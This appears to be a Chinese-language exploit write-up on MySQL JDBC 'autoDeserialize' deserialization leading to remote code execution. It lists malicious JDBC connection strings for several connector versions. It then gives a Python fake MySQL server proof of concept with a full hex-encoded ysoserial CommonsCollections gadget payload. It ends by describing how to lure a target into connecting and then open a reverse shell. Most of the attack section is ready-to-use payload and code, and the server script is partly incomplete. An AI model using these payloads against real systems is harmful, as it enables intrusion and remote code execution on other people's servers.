

JDBC（Java DataBase Connectivity）是一种用于执行Sql语句的Java Api，即Java数据库连接，是Java语言中用来规范客户端程序如何来访问数据库的应用程序接口，可以为多种关系数据库提供统一访问，提供了诸如查询和更新数据库中数据的方法，是Java访问数据库的标准规范。简单理解为链接数据库、对数据库操作都需要通过jdbc来实现。​

Mysql JDBC 中包含一个危险的扩展参数： "autoDeserialize"。这个参数配置为 true 时，JDBC 客户端将会自动反序列化服务端返回的数据，造成RCE漏洞。​

​
^
## **分析​**
JDBC定义了一个叫java.sql.Driver的接口类负责实现对数据库的连接，所有的数据库驱动包都必须实现这个接口才能够完成数据库的连接操作。java.sql.DriverManager.getConnection(xxx)其实就是间接的调用了java.sql.Driver类的connect方法实现数据库连接的。数据库连接成功后会返回一个叫做java.sql.Connection的数据库连接对象，一切对数据库的查询操作都将依赖于这个Connection对象。​

​
当连接数据库的时候会执行内置的sql语句来确保连接成功​
当我们伪造返回数据为序列化数据时，使服务器触发反序列化​
入口点是com.mysql.cj.jdbc.result.ResultSetImpl.getObject()​
在JDBC连接数据库的过程中,会使用内置的sql语句查询确保连接，会调用SHOW SESSION STATUS去查询，然后对结果进行处理的时候会调用resultSetToMap.跟进去，看看resultSetToMap，最终触发getObject​

​

## ​**利用**
不同版本的payload​
mysql-connector-java <= 8.0.20
mysql-connector-java-8.0.28.jar
8.x​
```
"jdbc:mysql://127.0.0.1:3309/test?characterEncoding=UTF-8&serverTimezone=Asia/Shanghai" +  ​
        "&autoDeserialize=true" +  ​
    "&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor";
```

6.x​
属性名不同，queryInterceptors 换为 statementInterceptors​
```
"jdbc:mysql://x.x.x.x:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor"
```

\>=5.1.11​
包名中没有cj​
```
"jdbc:mysql://x.x.x.x:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor"
```
5.x <= 5.1.10​
同上，但需要连接后执行查询。​
5.1.29 - 5.1.40​
```
"jdbc:mysql://x.x.x.x:3306/test?detectCustomCollations=true&autoDeserialize=true"
```

5.1.28 - 5.1.19​
```
"jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true"
```
​
^​
我们需要伪造mysql服务端，用来传递反序列化的攻击数据​，数据借助ysoserial生成。
mysql服务端POC​。​
```
import socket​
import binascii​
import os​
​
greeting_data="4a0000000a352e372e31390008000000463b452623342c2d00fff7080200ff811500000000000000000000032851553e5c23502c51366a006d7973716c5f6e61746976655f70617373776f726400"​
response_ok_data="0700000200000002000000"​
​
def receive_data(conn):​
    data = conn.recv(1024)​
    print("[*] Receiveing the package : {}".format(data))​
    return str(data).lower()​
​
def send_data(conn,data):​
    print("[*] Sending the package : {}".format(data))​
    conn.send(binascii.a2b_hex(data))​
​
def get_payload_content():​
    //file文件的内容使用ysoserial生成的 使用规则  java -jar ysoserial [common7那个]  "calc" > a ​
    file= r'a'​
    if os.path.isfile(file):​
        with open(file, 'rb') as f:​
            payload_content = str(binascii.b2a_hex(f.read()),encoding='utf-8')​
        print("open successs")​
​
    else:​
        print("open false")​
        #calc​
        payload_content='aced0005737200116a6176612e7574696c2e48617368536574ba44859596b8b7340300007870770c000000023f40000000000001737200346f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e6b657976616c75652e546965644d6170456e7472798aadd29b39c11fdb0200024c00036b65797400124c6a6176612f6c616e672f4f626a6563743b4c00036d617074000f4c6a6176612f7574696c2f4d61703b7870740003666f6f7372002a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e6d61702e4c617a794d61706ee594829e7910940300014c0007666163746f727974002c4c6f72672f6170616368652f636f6d6d6f6e732f636f6c6c656374696f6e732f5472616e73666f726d65723b78707372003a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e436861696e65645472616e73666f726d657230c797ec287a97040200015b000d695472616e73666f726d65727374002d5b4c6f72672f6170616368652f636f6d6d6f6e732f636f6c6c656374696f6e732f5472616e73666f726d65723b78707572002d5b4c6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e5472616e73666f726d65723bbd562af1d83418990200007870000000057372003b6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e436f6e7374616e745472616e73666f726d6572587690114102b1940200014c000969436f6e7374616e7471007e00037870767200116a6176612e6c616e672e52756e74696d65000000000000000000000078707372003a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e496e766f6b65725472616e73666f726d657287e8ff6b7b7cce380200035b000569417267737400135b4c6a6176612f6c616e672f4f626a6563743b4c000b694d6574686f644e616d657400124c6a6176612f6c616e672f537472696e673b5b000b69506172616d54797065737400125b4c6a6176612f6c616e672f436c6173733b7870757200135b4c6a6176612e6c616e672e4f626a6563743b90ce589f1073296c02000078700000000274000a67657452756e74696d65757200125b4c6a6176612e6c616e672e436c6173733bab16d7aecbcd5a990200007870000000007400096765744d6574686f647571007e001b00000002767200106a6176612e6c616e672e537472696e67a0f0a4387a3bb34202000078707671007e001b7371007e00137571007e001800000002707571007e001800000000740006696e766f6b657571007e001b00000002767200106a6176612e6c616e672e4f626a656374000000000000000000000078707671007e00187371007e0013757200135b4c6a6176612e6c616e672e537472696e673badd256e7e91d7b4702000078700000000174000463616c63740004657865637571007e001b0000000171007e00207371007e000f737200116a6176612e6c616e672e496e746567657212e2a0a4f781873802000149000576616c7565787200106a6176612e6c616e672e4e756d62657286ac951d0b94e08b020000787000000001737200116a6176612e7574696c2e486173684d61700507dac1c31660d103000246000a6c6f6164466163746f724900097468726573686f6c6478703f4000000000000077080000001000000000787878'​
    return payload_content​
​
# 主要逻辑​
def run():​
​
    while 1:​
        conn, addr = sk.accept()​
        print("Connection come from {}:{}".format(addr[0],addr[1]))​
​
        # 1.先发送第一个 问候报文​
        send_data(conn,greeting_data)​
​
        while True:​
            # 登录认证过程模拟  1.客户端发送request login报文 2.服务端响应response_ok​
            receive_data(conn)​
            send_data(conn,response_ok_data)​
​
            #其他过程​
​
    run()
```

​

​

思路：在服务器上触发某个方法，引起我们可控的jdbc连接，使其连上我们py脚本开启的fake_mysql_server,在这个服务端准备反序列化的数据​。
然后再反弹shell。

